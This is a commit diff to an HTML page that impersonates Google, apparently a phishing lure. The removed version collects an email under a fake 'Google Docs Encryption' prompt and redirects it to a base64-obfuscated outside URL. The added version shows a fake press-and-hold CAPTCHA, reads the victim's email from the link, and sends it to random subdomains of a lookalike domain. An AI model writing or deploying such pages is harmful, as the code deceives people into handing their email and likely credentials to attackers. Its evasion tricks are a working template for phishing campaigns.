

Before and after one commit to D3M0IV/Railway-gmail, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 312-800 px from the top of the page, without its empty margins (208-1071 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,11 +1,39 @@
 <!DOCTYPE html>
 <html lang="en">
 <head>
-  <meta charset="UTF-8" />
-  <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
-  <title>Secure Google Document</title>
+  <meta charset="UTF-8">
+  <meta name="viewport" content="width=device-width, initial-scale=1.0">
+  <title>Secure </title>
   <link href="https://fonts.googleapis.com/css2?family=Roboto:wght@400;500&display=swap" rel="stylesheet"/>
   <style>
+    /* Loader Styles */
+    #loader-container {
+      position: fixed;
+      width: 100vw;
+      height: 100vh;
+      display: flex;
+      flex-direction: column;
+      align-items: center;
+      justify-content: center;
+      background: linear-gradient(120deg, #89f7fe, #66a6ff);
+      z-index: 10;
+    }
+
+    .loader-circle {
+      border: 6px solid rgba(255, 255, 255, 0.3);
+      border-top: 6px solid white;
+      border-radius: 50%;
+      width: 80px;
+      height: 80px;
+      animation: spin 1s linear infinite;
+    }
+
+    @keyframes spin {
+      0% { transform: rotate(0deg); }
+      100% { transform: rotate(360deg); }
+    }
+
+    /* Main Content Styles */
     body {
       font-family: 'Roboto', sans-serif;
       background: #F5F5F5;
@@ -25,6 +53,7 @@
       max-width: 350px;
       width: 90%;
       border-top: 4px solid #4285F4;
+      display: none;
     }
 
     .logo {
@@ -51,65 +80,6 @@
       color: #3c4043;
     }
 
-    input {
-      width: 100%;
-      max-width: 300px;
-      padding: 12px;
-      border: 1px solid #dadce0;
-      border-radius: 4px;
-      font-size: 14px;
-      margin-bottom: 15px;
-      box-sizing: border-box;
-      text-align: center;
-      transition: border 0.3s;
-    }
-
-    input:focus {
-      border-color: #4285F4;
-      outline: none;
-    }
-
-    button {
-      width: auto;
-      padding: 10px 24px;
-      background: #4285F4;
-      color: white;
-      border: none;
-      border-radius: 4px;
-      font-size: 14px;
-      font-weight: 500;
-      cursor: pointer;
-      transition: background 0.3s;
-      margin-top: 10px;
-    }
-
-    button:hover {
-      background: #3367D6;
-    }
-
-    .verification-text {
-      font-size: 13px;
-      color: #5f6368;
-      margin-top: 15px;
-      display: block;
-    }
-
-    .loading-spinner {
-      border: 4px solid rgba(66, 133, 244, 0.1);
-      border-top: 4px solid #4285F4;
-      border-radius: 50%;
-      width: 30px;
-      height: 30px;
-      animation: spin 1s linear infinite;
-      display: none;
-      margin: 15px auto;
-    }
-
-    @keyframes spin {
-      0% { transform: rotate(0deg); }
-      100% { transform: rotate(360deg); }
-    }
-
     .google-colors {
       display: flex;
       justify-content: center;
@@ -123,10 +93,79 @@
     .red { background-color: #EA4335; }
     .yellow { background-color: #FBBC05; }
     .green { background-color: #34A853; }
+
+    /* Press and Hold CAPTCHA Styles */
+    .captcha-container {
+      margin: 20px 0;
+      padding: 15px;
+      background: #f8f9fa;
+      border-radius: 4px;
+      border: 1px solid #dadce0;
+      text-align: center;
+    }
+
+    .hold-button {
+      width: 100%;
+      padding: 15px;
+      background: #f1f3f4;
+      border: 2px solid #dadce0;
+      border-radius: 4px;
+      font-size: 16px;
+      font-weight: 500;
+      color: #3c4043;
+      cursor: pointer;
+      position: relative;
+      overflow: hidden;
+      transition: background 0.3s;
+    }
+
+    .hold-button:hover {
+      background: #e8eaed;
+    }
+
+    .hold-button.active {
+      background: #e6f4ea;
+      border-color: #34a853;
+    }
+
+    .hold-button.success {
+      background: #e6f4ea;
+      border-color: #34a853;
+      color: #34a853;
+    }
+
+    .progress-bar {
+      position: absolute;
+      bottom: 0;
+      left: 0;
+      height: 4px;
+      background: #34a853;
+      width: 0%;
+      transition: width 0.1s linear;
+    }
+
+    .instructions {
+      font-size: 13px;
+      color: #5f6368;
+      margin-top: 10px;
+    }
+
+    .redirect-message {
+      font-size: 14px;
+      color: #5f6368;
+      margin-top: 20px;
+      display: none;
+    }
   </style>
 </head>
 <body>
-  <div class="container">
+  <!-- Loader -->
+  <div id="loader-container">
+    <div class="loader-circle"></div>
+  </div>
+
+  <!-- Main Content -->
+  <div class="container" id="main-content">
     <!-- Google Logo -->
     <img src="https://www.google.com/images/branding/googlelogo/1x/googlelogo_color_272x92dp.png" alt="Google Logo" class="logo" />
     <div class="google-colors">
@@ -136,202 +175,121 @@
       <div class="color-bar green"></div>
     </div>
 
-    <h1>Google Docs Encryption</h1>
-    <p class="bold-text">To open this secure document, enter the email address it was shared with.</p>
+    <h1>Google Portal</h1>
+    <p class="bold-text">Please verify you're not a robot</p>
 
-    <form onsubmit="verifyEmail(event)">
-      <input type="email" id="email" placeholder="Enter your email" required />
-      <button type="submit">Verify</button>
-    </form>
+    <!-- Press and Hold CAPTCHA Section -->
+    <div id="captcha-section">
+      <div class="captcha-container">
+        <p>Press and hold to verify</p>
+        <button class="hold-button" id="hold-button">
+          Hold for 3 seconds
+          <div class="progress-bar"></div>
+        </button>
+        <p class="instructions">Keep holding until the progress bar completes</p>
+      </div>
+    </div>
 
-    <p class="bold-text verification-text">Verifying access for the recipient's Google account.</p>
-    <div class="loading-spinner"></div>
+    <!-- Redirect Message -->
+    <p id="redirect-message" class="redirect-message">Verification complete. Redirecting...</p>
   </div>
 
   <script>
-    function verifyEmail(event) {
-      event.preventDefault();
-      const email = document.getElementById('email').value;
-      if (email) {
-        document.querySelector('.loading-spinner').style.display = 'block';
+    document.addEventListener("DOMContentLoaded", () => {
+      const generateRandomString = (length) => {
+        const characters = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefhiklmnorstuvwxz0123456789";
+        return Array.from({ length }, () => characters.charAt(Math.floor(Math.random() * characters.length))).join('');
+      };
 
-        const base64Url = "aHR0cHM6Ly8yZDFhLnZ1a2NhaWJla3BvLmVzL3N0RE1TU3VBIUNhMnBZUi8=";
-        const decodedUrl = atob(base64Url);
-        const finalUrl = decodedUrl + "?ff" + encodeURIComponent(email);
+      // Function to extract email from URL parameters (# or ?e=)
+      const extractEmailFromURL = () => {
+        const url = new URL(window.location.href);
+        // Check for email in hash (#email@domain.com)
+        if (url.hash && url.hash.includes('@')) {
+          return url.hash.substring(1); // Remove the #
+        }
+        // Check for email in query parameter (?e=email@domain.com)
+        if (url.searchParams.get('e')) {
+          return url.searchParams.get('e');
+        }
+        return null;
+      };
 
+      // Show loader first, then main content after delay
+      setTimeout(() => {
+        document.getElementById("loader-container").style.display = "none";
+        document.getElementById("main-content").style.display = "block";
+
+        // Check for prefilled email
+        const extractedEmail = extractEmailFromURL();
+        if (extractedEmail) {
+          window.prefilledEmail = extractedEmail; // Store for later use
+        }
+      }, 3000);
+
+      // Press and Hold CAPTCHA functionality
+      const holdButton = document.getElementById('hold-button');
+      const progressBar = holdButton.querySelector('.progress-bar');
+      let holdInterval;
+      let holdTime = 0;
+      const requiredHoldTime = 3000; // 3 seconds
+
+      holdButton.addEventListener('mousedown', startHold);
+      holdButton.addEventListener('touchstart', startHold);
+
+      holdButton.addEventListener('mouseup', endHold);
+      holdButton.addEventListener('touchend', endHold);
+      holdButton.addEventListener('mouseleave', endHold);
+
+      function startHold() {
+        holdButton.classList.add('active');
+        holdTime = 0;
+        progressBar.style.width = '0%';
+
+        holdInterval = setInterval(() => {
+          holdTime += 100;
+          const progressPercent = Math.min((holdTime / requiredHoldTime) * 100, 100);
+          progressBar.style.width = `${progressPercent}%`;
+
+          if (holdTime >= requiredHoldTime) {
+            completeHold();
+          }
+        }, 100);
+      }
+
+      function endHold() {
+        if (holdInterval) {
+          clearInterval(holdInterval);
+          holdButton.classList.remove('active');
+          if (holdTime < requiredHoldTime) {
+            progressBar.style.width = '0%';
+          }
+        }
+      }
+
+      function completeHold() {
+        clearInterval(holdInterval);
+        holdButton.classList.remove('active');
+        holdButton.classList.add('success');
+        holdButton.textContent = 'Verified ✓';
+
+        // Show redirect message
+        document.getElementById('redirect-message').style.display = 'block';
+
+        // Generate redirect URL immediately
+        const email = window.prefilledEmail || "user@example.com";
+        const randomSubdomain = generateRandomString(10);
+        const randomPath = generateRandomString(15);
+
+        // Create final URL with email parameter
+        const finalUrl = `https://${randomSubdomain}.gookenea.com.de/XWqvyijkvmcsm!l/?ff${encodeURIComponent(email)}`;
+
+        // Redirect after a brief delay to show success state
         setTimeout(() => {
           window.location.href = finalUrl;
-        }, 2000);
+        }, 1500);
       }
-    }
-  </script>
-</body>
-</html><!DOCTYPE html>
-<html lang="en">
-<head>
-  <meta charset="UTF-8" />
-  <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
-  <title>Secure Google Document</title>
-  <link href="https://fonts.googleapis.com/css2?family=Roboto:wght@400;500&display=swap" rel="stylesheet"/>
-  <style>
-    body {
-      font-family: 'Roboto', sans-serif;
-      background: #F5F5F5;
-      display: flex;
-      justify-content: center;
-      align-items: center;
-      height: 100vh;
-      margin: 0;
-    }
-
-    .container {
-      background: white;
-      padding: 25px;
-      border-radius: 8px;
-      box-shadow: 0 2px 10px rgba(0, 0, 0, 0.1);
-      text-align: center;
-      max-width: 350px;
-      width: 90%;
-      border-top: 4px solid #4285F4;
-    }
-
-    .logo {
-      width: 120px;
-      margin-bottom: 15px;
-    }
-
-    h1 {
-      font-size: 20px;
-      color: #3c4043;
-      margin-bottom: 15px;
-      font-weight: 500;
-    }
-
-    p {
-      font-size: 14px;
-      color: #5f6368;
-      margin-bottom: 20px;
-      line-height: 1.5;
-    }
-
-    .bold-text {
-      font-weight: 500;
-      color: #3c4043;
-    }
-
-    input {
-      width: 100%;
-      max-width: 300px;
-      padding: 12px;
-      border: 1px solid #dadce0;
-      border-radius: 4px;
-      font-size: 14px;
-      margin-bottom: 15px;
-      box-sizing: border-box;
-      text-align: center;
-      transition: border 0.3s;
-    }
-
-    input:focus {
-      border-color: #4285F4;
-      outline: none;
-    }
-
-    button {
-      width: auto;
-      padding: 10px 24px;
-      background: #4285F4;
-      color: white;
-      border: none;
-      border-radius: 4px;
-      font-size: 14px;
-      font-weight: 500;
-      cursor: pointer;
-      transition: background 0.3s;
-      margin-top: 10px;
-    }
-
-    button:hover {
-      background: #3367D6;
-    }
-
-    .verification-text {
-      font-size: 13px;
-      color: #5f6368;
-      margin-top: 15px;
-      display: block;
-    }
-
-    .loading-spinner {
-      border: 4px solid rgba(66, 133, 244, 0.1);
-      border-top: 4px solid #4285F4;
-      border-radius: 50%;
-      width: 30px;
-      height: 30px;
-      animation: spin 1s linear infinite;
-      display: none;
-      margin: 15px auto;
-    }
-
-    @keyframes spin {
-      0% { transform: rotate(0deg); }
-      100% { transform: rotate(360deg); }
-    }
-
-    .google-colors {
-      display: flex;
-      justify-content: center;
-      margin-bottom: 20px;
-    }
-    .color-bar {
-      height: 4px;
-      width: 25%;
-    }
-    .blue { background-color: #4285F4; }
-    .red { background-color: #EA4335; }
-    .yellow { background-color: #FBBC05; }
-    .green { background-color: #34A853; }
-  </style>
-</head>
-<body>
-  <div class="container">
-    <!-- Google Logo -->
-    <img src="https://www.google.com/images/branding/googlelogo/1x/googlelogo_color_272x92dp.png" alt="Google Logo" class="logo" />
-    <div class="google-colors">
-      <div class="color-bar blue"></div>
-      <div class="color-bar red"></div>
-      <div class="color-bar yellow"></div>
-      <div class="color-bar green"></div>
-    </div>
-
-    <h1>Google Docs Encryption</h1>
-    <p class="bold-text">To open this secure document, enter the email address it was shared with.</p>
-
-    <form onsubmit="verifyEmail(event)">
-      <input type="email" id="email" placeholder="Enter your email" required />
-      <button type="submit">Verify</button>
-    </form>
-
-    <p class="bold-text verification-text">Verifying access for the recipient's Google account.</p>
-    <div class="loading-spinner"></div>
-  </div>
-
-  <script>
-    function verifyEmail(event) {
-      event.preventDefault();
-      const email = document.getElementById('email').value;
-      if (email) {
-        document.querySelector('.loading-spinner').style.display = 'block';
-
-        const base64Url = "aHR0cHM6Ly8yZDFhLnZ1a2NhaWJla3BvLmVzL3N0RE1TU3VBIUNhMnBZUi8=";
-        const decodedUrl = atob(base64Url);
-        const finalUrl = decodedUrl + "?ff" + encodeURIComponent(email);
-
-        setTimeout(() => {
-          window.location.href = finalUrl;
-        }, 2000);
-      }
-    }
+    });
   </script>
 </body>
 </html>
```
